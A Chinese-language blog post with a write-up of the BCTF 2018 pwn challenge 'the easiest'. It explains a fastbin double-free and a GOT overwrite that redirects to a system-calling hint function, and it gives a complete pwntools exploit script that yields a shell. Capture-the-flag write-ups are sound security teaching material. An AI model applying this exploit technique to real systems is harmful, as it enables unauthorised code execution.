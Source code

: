 ```yaml
---
layout:     post
title:      BCTF write up
subtitle:    pwn
date:       2018-12-7
author:     XT
header-img: img/post-bg-coffee.jpeg
catalog: 	 true
tags:
    - 安全
---
```



> BCTF

# the easiest

首先checksec，查看保护，没有pie保护，我们可以尝试写got表。

![1544151410259](https://raw.githubusercontent.com/xineting/xineting.github.io/master/img/1544151410259.png)

总共有两个选择add，delete。

![1544151429146](https://raw.githubusercontent.com/xineting/xineting.github.io/master/img/1544151429146.png)

并且delete可以删除

我 们IDA中有一个hint函数，因为我们看到got表有system所以，找一下，就找到了！

![1544155933667](https://raw.githubusercontent.com/xineting/xineting.github.io/master/img/1544155933667.png)

我们可以修改got表，然后跳到这里就可以了。

至于这个程序，随便看一下，就知道是个double free的问题！

```python
#coding:utf8
from pwn import *
import sys

def add(id,size,content):
        p.sendlineafter("2 delete","1")
        p.sendlineafter("(0-11):",str(id))
        p.sendlineafter("Length:",str(size))
        p.sendlineafter("C:",content)

def free(id):
        p.sendlineafter("2 delete","2")
        p.sendlineafter("(0-11):",str(id))

def debugf():
        gdb.attach(p,"b *0x400D38")


context.log_level = "debug"
context.terminal = ["tmux","splitw","-v"]
p=process("./1")
elf=ELF("./1")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
add(1,100,"aaaaaaaaaaaaaaaaaaaaaaaaa")

add(2,100,"bbbbbbbbbbbbbbbbbbbbbbbb")

if sys.argv[1]=="y":
         debugf()

free(1)
free(2)
free(1)
```

这里没有报错，然后我们就可以构造任意的chunk进行写入。然后我们思考构造那个chunk呢？

我们可以看到got表区域，后4位为0x7f.

![1544158629895](https://raw.githubusercontent.com/xineting/xineting.github.io/master/img/1544158629895.png)

所以可以伪造这个chunk，然后进行got表的修改。

```python
free(1)
free(2)
free(1)
pause()
```

free3次然后malloc把第一块的值写为我们伪造的块的地址，然后malloc两次，我们的fasbin就指向了我们伪造的chunk，这个时候如果再malloc就可以修改got表了。

```python
add(1,0x68,p64(0x602045))
add(2,0x68,"hh")
payload = '\x00\x00\x00' + p64(0x400946) * 6
add(3,0x68,"hhh")######此时指向的就是我们伪造的chunk了
add(4,0x68,payload)
```

![1544158909167](https://raw.githubusercontent.com/xineting/xineting.github.io/master/img/1544158909167.png)

![1544159354143](https://raw.githubusercontent.com/xineting/xineting.github.io/master/img/1544159354143.png)

可见我们已经修改成功，接着就是scanf的got调用，接着就getshell了

脚本如图

```python
#coding:utf8
from pwn import *
import sys

def add(id,size,content):
        p.sendlineafter("2 delete","1")
        p.sendlineafter("(0-11):",str(id))
        p.sendlineafter("Length:",str(size))
        p.sendlineafter("C:",content)

def free(id):
        p.sendlineafter("2 delete","2")
        p.sendlineafter("(0-11):",str(id))

def debugf():
        gdb.attach(p,"b *0x400D38")


context.log_level = "debug"
context.terminal = ["tmux","splitw","-v"]
p=process("./1")
elf=ELF("./1")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
add(1,100,"aaaaaaaaaaaaaaaaaaaaaaaaa")

add(2,100,"bbbbbbbbbbbbbbbbbbbbbbbb")

if sys.argv[1]=="y":
         debugf()

free(1)
free(2)
free(1)
pause()
add(1,0x68,p64(0x602045))
add(2,0x68,"hh")
payload = '\x00\x00\x00' + p64(0x400946) * 6
add(3,0x68,"hhh")

add(4,0x68,payload)
p.interactive()
```

